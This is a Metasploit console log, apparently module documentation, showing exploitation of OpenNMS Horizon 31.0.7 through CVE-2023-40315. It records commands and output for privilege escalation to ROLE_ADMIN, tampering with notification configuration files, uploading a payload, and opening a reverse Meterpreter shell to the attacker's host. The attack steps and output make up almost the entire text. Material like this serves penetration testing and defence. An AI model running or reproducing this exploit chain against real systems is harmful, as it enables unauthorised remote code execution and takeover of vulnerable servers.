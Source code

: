 ### OpenNMS Horizon 31.0.7 - Exploitation via CVE-2023-40315
```
msf6 exploit(linux/http/opennms_horizon_authenticated_rce) > set username file
username => file
msf6 exploit(linux/http/opennms_horizon_authenticated_rce) > set password file
password => file
msf6 exploit(linux/http/opennms_horizon_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.196:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] The target is OpenNMS version 31.0.7 and is likely vulnerable to CVE-2023-40315 and CVE-2023-0872.
[+] The target appears to be vulnerable. User file has ROLE_FILESYSTEM_EDITOR privileges. Exploitation is likely possible via CVE-2023-40315.
[*] Waiting 3 seconds for the changes to be saved...
[+] Successfully escalated privileges by adding ROLE_ADMIN
[*] Successfully edited notificationCommands.xml
[*] Successfully edited destinationPaths.xml
[*] Successfully edited notifications.xml
[+] Successfully uploaded the payload to thwjtslfaqsg.bsh
[*] Triggering the notification to execute the payload
[*] Received expected response while triggering the payload. Please be patient, it may take a few seconds for the payload to execute.
[*] Sending stage (3045380 bytes) to 172.20.0.2
[*] Meterpreter session 1 opened (192.168.91.196:4444 -> 172.20.0.2:51914) at 2023-12-13 17:40:16 +0200
[*] Attempting cleanup...

meterpreter > getuid
Server username: opennms

```
